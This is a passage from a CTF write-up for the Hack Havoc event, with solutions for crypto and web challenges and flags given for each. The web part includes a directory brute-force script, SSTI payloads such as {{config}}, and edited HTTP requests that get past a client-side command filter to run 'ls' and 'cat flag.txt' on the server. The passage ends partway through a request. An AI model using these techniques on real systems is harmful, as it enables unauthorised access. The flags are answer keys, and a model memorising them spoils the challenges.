101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110000,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00101100,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110000"

b=[int(i,2) for i in a.split(",")]

for i in b:
    print(chr(i), end="")

```

Running this we get:-
`00110000,00110000,00110001,00110001,00110001,00110000,00110000,00110000,00100000,00110000,00110001,00110000,00110001,00110000,00110000,00110001,00110001,00100000,00110000,00110001,00110000,00110000,00110001,00110001,00110001,00110000,00100000,00110000,00110001,00110000,00110001,00110001,00110000,00110001,00110000,00100000,00110000,00110000,00110001,00110001,00110001,00110000,00110000,00110001,00100000,00110000,00110001,00110000,00110001,00110000,00110000,00110001,00110000,00100000,00110000,00110001,00110001,00110000,00110001,00110001,00110001,00110000,00100000,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00100000,00110000,00110001,00110000,00110000,00110001,00110001,00110000,00110000,00100000,00110000,00110001,00110000,00110000,00110000,00110000,00110001,00110001,00100000,00110000,00110001,00110000,00110001,00110001,00110000,00110000,00110001,00100000,00110000,00110001,00110001,00110000,00110001,00110001,00110000,00110001,00100000,00110000,00110001,00110000,00110001,00110000,00110001,00110001,00110001,00100000,00110000,00110001,00110001,00110000,00110001,00110001,00110001,00110000,00100000,00110000,00110001,00110001,00110001,00110000,00110000,00110001,00110000,00100000,00110000,00110000,00110001,00110001,00110000,00110001,00110000,00110001,00100000,00110000,00110001,00110000,00110000,00110000,00110001,00110000,00110000,00100000,00110000,00110001,00110000,00110001,00110000,00110001,00110001,00110000,00100000,00110000,00110001,00110000,00110000,00110001,00110001,00110000,00110000,00100000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00110001,00100000,00110000,00110001,00110001,00110001,00110001,00110000,00110000,00110001,00100000,00110000,00110001,00110001,00110000,00110001,00110000,00110000,00110000,00100000,00110000,00110001,00110000,00110001,00110001,00110000,00110001,00110000,00100000,00110000,00110000,00110000,00110000,00110001,00110001,00110000,00110001,00100000,00110000,00110000,00110000,00110000,00110001,00110000,00110001,00110000`

We again follow the same process
```python
d="00110000,00110000,00110001,00110001,00110001,00110000,00110000,00110000,00100000,00110000,00110001,00110000,00110001,00110000,00110000,00110001,00110001,00100000,00110000,00110001,00110000,00110000,00110001,00110001,00110001,00110000,00100000,00110000,00110001,00110000,00110001,00110001,00110000,00110001,00110000,00100000,00110000,00110000,00110001,00110001,00110001,00110000,00110000,00110001,00100000,00110000,00110001,00110000,00110001,00110000,00110000,00110001,00110000,00100000,00110000,00110001,00110001,00110000,00110001,00110001,00110001,00110000,00100000,00110000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00100000,00110000,00110001,00110000,00110000,00110001,00110001,00110000,00110000,00100000,00110000,00110001,00110000,00110000,00110000,00110000,00110001,00110001,00100000,00110000,00110001,00110000,00110001,00110001,00110000,00110000,00110001,00100000,00110000,00110001,00110001,00110000,00110001,00110001,00110000,00110001,00100000,00110000,00110001,00110000,00110001,00110000,00110001,00110001,00110001,00100000,00110000,00110001,00110001,00110000,00110001,00110001,00110001,00110000,00100000,00110000,00110001,00110001,00110001,00110000,00110000,00110001,00110000,00100000,00110000,00110000,00110001,00110001,00110000,00110001,00110000,00110001,00100000,00110000,00110001,00110000,00110000,00110000,00110001,00110000,00110000,00100000,00110000,00110001,00110000,00110001,00110000,00110001,00110001,00110000,00100000,00110000,00110001,00110000,00110000,00110001,00110001,00110000,00110000,00100000,00110000,00110001,00110001,00110000,00110000,00110000,00110001,00110001,00100000,00110000,00110001,00110001,00110001,00110001,00110000,00110000,00110001,00100000,00110000,00110001,00110001,00110000,00110001,00110000,00110000,00110000,00100000,00110000,00110001,00110000,00110001,00110001,00110000,00110001,00110000,00100000,00110000,00110000,00110000,00110000,00110001,00110001,00110000,00110001,00100000,00110000,00110000,00110000,00110000,00110001,00110000,00110001,00110000"

b=[int(i,2) for i in d.split(",")]
print(''.join([chr(i) for i in b]))
```

Output:- `00111000 01010011 01001110 01011010 00111001 01010010 01101110 00110001 01001100 01000011 01011001 01101101 01010111 01101110 01110010 00110101 01000100 01010110 01001100 01100011 01111001 01101000 01011010 00001101 00001010`

Next we again do the same step:-
```python
d="00111000 01010011 01001110 01011010 00111001 01010010 01101110 00110001 01001100 01000011 01011001 01101101 01010111 01101110 01110010 00110101 01000100 01010110 01001100 01100011 01111001 01101000 01011010 00001101 00001010"

b=[int(i,2) for i in d.split(" ")]
print(b)
```
Output:- `[56, 83, 78, 90, 57, 82, 110, 49, 76, 67, 89, 109, 87, 110, 114, 53, 68, 86, 76, 99, 121, 104, 90, 13, 10]`

Next char convertion:-

```python
for i in b:
    print(chr(i), end="")
```

Output:- `8SNZ9Rn1LCYmWnr5DVLcyhZ`

Put this in dcode cipher identifier and it shows `base62`

Decrypt it.

Flag:- `CM{N0t_64_Alway5}`


## <u>Dear Trithemius,</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Crypto
* **Point Value / Difficulty:** 60
### Description
The encryption method used in this cipher is a variation of the Caesar cipher, but with a twist. Each letter in the plaintext is shifted by a different amount depending on its position in the string. Non-alphabetic characters remain unchanged. To decrypt, reverse this shifting process.

Flag: Enclosed string with CM{....}
### Solution
We have a `go` program which is pretty easy to reverse.
It mainly deals with the `Uppercase letters` and keeps the `non alphabet` the same.
The solve script is pretty straightforward
```python
def to_h(owo):
    return ord(owo) - 0x41

def from_l(uwu):
    return chr(uwu % 26 + 0x41)

def decrypt(e):
    original_message = ''
    for i in range(len(e)):
        letters = e[i]
        if not letters.isalpha():
            owo = letters
        else:
            uwu = to_h(letters)
            owo = from_l(uwu - i)
        original_message += owo
    return original_message

c="LPXH_Z_AZRDSQZWJI"
d = decrypt(c)
print(d)
```
Output:- `LOVE_U_TRITHEMIUS`

Flag:- `CM{LOVE_U_TRITHEMIUS}`


## <u>My Secret X 'V' My Secret Y</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Crypto
* **Point Value / Difficulty:** 80
### Description
A message from the cheeky code gremlins: Our secrets are hidden in plain sight, like a magician’s trick. Your task? Play peekaboo with bytes to reveal what’s concealed. Remember, it’s not about where they're hiding but who’s hiding!"

Hide: 6866507f43181e1874531b79741f59187448791f517256  
&  
Seek: ??????????????
### Solution
On looking at the data, the first thing that comes to mind is `xor`. Now using the knowledge of the flag format `CM{`, we first find the key.

Having found the key, just xor everything with it.



Flag:- `CM{Th353_x0R_4r3_cR4zY}`

<br>

# Web
## <u>We are rolling</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Web
* **Point Value / Difficulty:** 20
### Description
Welcome to the “We’re Rolling” extravaganza! 🎉 We've got a flag that's doing its best impression of a rollercoaster ride—just rolling down and having a blast.

[https://ctf.cybermaterial.com/](https://ctf.cybermaterial.com/)

### Solution
This challenge was really simple, just had to `roll` a bit or maybe search.

Open `https://ctf.cybermaterial.com/robots.txt` and search `CM` and you will find the flag. Its a bit down in the page so had to scroll.

`Woooooooo Hoooooooooo!!!  CM{RoOL_&_ROoL}`

Flag:- `CM{RoOL_&_ROoL}`


## <u>Drunken Website</u>

* **Event:** Hack Havoc CTF by CyberMaterial
* **Problem Type:** Web
* **Point Value / Difficulty:** 30
### Description
A coder, tipsy and on a deadline, unleashed a website that's a chaotic mess of broken links and jumbled code in so many language imaginable. The site’s live, and the flag is hidden in the mayhem. Your challenge? Navigate this digital disaster, debug the chaos, and find the elusive flag.

[http://challenge.ctf.cybermaterial.com/dissssissssimpul/](http://challenge.ctf.cybermaterial.com/dissssissssimpul/)
### Solution
On going to the website we see stiff written in various languages as said that the website was drunk.

I checked the source code to find another href `http://challenge.ctf.cybermaterial.com/dissssissssimpul/homepage.html#`. 

Also there were fake flags on both of the previous pages.

Here also it was kindoff similar. Again checking the source code I saw an invisible button code, which takes to the link `http://challenge.ctf.cybermaterial.com/dissssissssimpul/0.html`.


On checking its source code, we find the flag.
```html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Hidden Message</title>
    <style>
        body {
            background-color: white; /* Set background color to white */
            margin: 0;
            padding: 0;
        }
        .hidden-text {
            position: absolute; /* Remove from the normal document flow */
            width: 1px; /* Minimize the width */
            height: 1px; /* Minimize the height */
            margin: -1px; /* Move out of view */
            padding: 0; /* Remove padding */
            overflow: hidden; /* Hide any overflow */
            clip: rect(0, 0, 0, 0); /* Clip the text */
            border: 0; /* Remove any border */
        }
    </style>
</head>
<body>
    <p class="hidden-text">
        Well, I guess I'll be fired in the morning for making such an amazing website. 
        But you can get this flag.
        CM{W3bs1t3_15_5hi7}
    </p>
</body>
</html>
```

Flag:- `CM{W3bs1t3_15_5hi7}`


## <u>A Shakespearian Tragedy </u>

* **Event:** Hack Havoc CTF by CyberMaterial
* **Problem Type:** Web
* **Point Value / Difficulty:** 40
### Description
“Now let it work. Mischief, thou art afoot. Take thou what course thou wilt” -Mark Antony

http://challenge.ctf.cybermaterial.com/challenge1/

### Solution
This challenge wasn't really hard but then again, felt a bit guessing. In the Website, it was written so the first thing I tried was directory busting.

Tried to use the `dirb` tool but the connection was getting broken all the time. So I wrote a custom python script with the `common.txt` which `dirb` uses to to do directory busting. 
```python
#!/usr/bin/env python3
import requests
# the url we are going to post to 
url='http://challenge.ctf.cybermaterial.com/challenge1/'

with open("common.txt",'rb') as f:
    a=f.read().split(b"\n")
    # print(a)
    for i in a:
        # print(i)
        try:
            response_get = requests.get(url+i.decode())
            if response_get.status_code == 200:
                print(i.decode())
                print(response_get.text)
        except:
            pass
```

From this I found out directories such as `/images, /files, /style`. These directories didn't really contain anything useful. Found some more `/admin, /directories`. These led to something called `Wrong door`. Thought that this might be the way. Stuck on it for a long time.

Read a few writeups online after some guessing games found the directory `/users`
```html

<!doctype html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="https://cdn.tailwindcss.com"></script>
    <title>Julius Caesar</title>
</head>

<body class="dark dark:bg-gray-900 grid h-screen place-items-center">
    <section>
        <div class="grid max-w-screen-xl px-4 py-8 mx-auto lg:gap-8 xl:gap-0 lg:py-16 lg:grid-cols-12">
            <div class="mr-auto place-self-center lg:col-span-7">
                <h1
                    class="max-w-2xl mb-4 text-4xl font-extrabold tracking-tight leading-none md:text-5xl xl:text-6xl dark:text-white">
                    Wrong Door
                </h1>
                            </div>
            <div class="hidden lg:mt-0 lg:col-span-5 lg:flex ">
                            </div>
			    <div hidden> h67GnLsMv4MWc84cYr2Ar6VZ7VrEc1VoGMFp3N</div>
	</div>
    </section>
</body>

</html>
```

This had the encrypted flag.
On putting that in cipher identifier(https://www.dcode.fr/cipher-identifier), got to know its `base58`

On decrypting we get `C3Mr{3id_}c4me_i_s4w_i_c0nqu`
On rearranging a bit we get the flag.

Flag:- `CM{i_c4me_i_s4w_i_c0nqu3r3d}`


## <u>Bidden Funhouse</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Web
* **Point Value / Difficulty:** 60
### Description
Seems like you're hitting a wall. But walls can have cracks, right? Find a way past the barricade and see if you can decode what's been hidden inside. Good luck!

http://challenge.ctf.cybermaterial.com/b/
### Solution
On opening the website, we see a form input. On putting a name, it shows forbidden. 

Based on the `shell shocker` challenge, I noticed that the `/b` went missing while executing. So I opened `burpsuite` and changed the request.

From
```
GET /?name=admin HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.ctf.cybermaterial.com/b/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

to 

```
GET /b/?name=admin HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.ctf.cybermaterial.com/b/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

On sending this request we get something like this:-


On seeing this, I searched about some possible vulnerabilities, and `ssti` was one of them. To verify it I found a stand payload `{{7*7}}` on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

On sending it instead of name I got the value of the expression.
`こんにちは 49`

Hence ssti was confirmed. Now there only I found this other payload `{{config}}` and this was the correct one.

`http://challenge.ctf.cybermaterial.com/?name={{config}}`
The above is the payload, and it gives the flag.



Flag:- `CM{Y0u_4r3_a_r3A1Ly_go0D_nINj4}`


## <u>The Shell Shocker</u>

* **Event:** Hack Havoc CTF by CyberMaterial
* **Problem Type:** Web
* **Point Value / Difficulty:** 80
### Description
Our CyberMaterial developer thought they’d created the ultimate basic Linux shell, only the essentials, nothing fancy. But we think they might have missed a trick or two. 😏

Your task? See if you can get this shell to do something it wasn’t exactly “designed” to do. Think of it like asking a fish to climb a tree. 🌳🐟

http://challenge.ctf.cybermaterial.com/a/

### Solution
On opening the website I immediately tried to run some linux commands but it didn't work.

Inspected the website, and came to `network` and refreshed the page. Saw that path of the `styles.css` and `script.js` was not properly configured. and it can't get it from its directory.

Went to `/static/script.js` and `/static/style.css` and found out the files.

Script.js
```js
const commandForm = document.querySelector('#command-form');
const commandInput = document.querySelector('#command-input');
const outputDiv = document.querySelector('#output');

commandForm.addEventListener('submit', async (event) => {
  event.preventDefault();
  
  const command = commandInput.value;
  
  const validCommand = /^((uname|echo|pwd|whoami)\s*([-\w\s]*))?$/i.test(command);
  
  if (!validCommand) {
    outputDiv.textContent = 'Error: Invalid command. Please enter a valid command (uname, echo, pwd, or whoami) with optional arguments and options separated by spaces and hyphens.';
    return;
  }
  
  try {
    const response = await fetch('/exec', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({ command }) 
    });
    const result = await response.text();
    outputDiv.textContent = result;
  } catch (error) {
    console.error(error);
    outputDiv.textContent = `Error: ${error.message}`;
  }
});
```

According to the regex we can use commands like uname, echo, pwd, whoami.

Now I open the website on `burpsuite` to intercept the requests, fix them and then send to the server.

We change the request 
```
GET /a/%7B%7B%20url_for('static',%20filename='style.css')%20%7D%7D HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/css,*/*;q=0.1
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
to 
```
GET /a/static/style.css HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/css,*/*;q=0.1
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

and

```
GET /a/%7B%7B%20url_for('static',%20filename='script.js')%20%7D%7D HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: */*
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

to this
```
GET /a/static/script.js HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Sec-Purpose: prefetch;prerender
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: */*
Purpose: prefetch
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Now both the css and js files will be properly loaded. Next lets try any random command which is allowed.

The request we get is 
```
POST /exec HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Content-Length: 17
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://challenge.ctf.cybermaterial.com
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"command":"pwd"}
```

We see that it is `POST /exec` but the website has a `/a`. So we modify this request as well by writing `/a/exec` instead of `/exec` and forward it.



It shows `Command not allowed`. The server has some other implementation. Either ways, next just try the command `ls` but change the request instead of writing in the website as it will show error due to the client side js. 

The output we get is `{"output":"__pycache__\napp.py\nflag.txt\nindex.html\nstatic\ntemplates\n"}`

Next just send `cat flag.txt` as the command and viola, you get the flag.
```
POST /a/exec HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Content-Length: 17
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://challenge.ctf.cybermaterial.com
Referer: http://challenge.ctf.cybermaterial.com/a/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

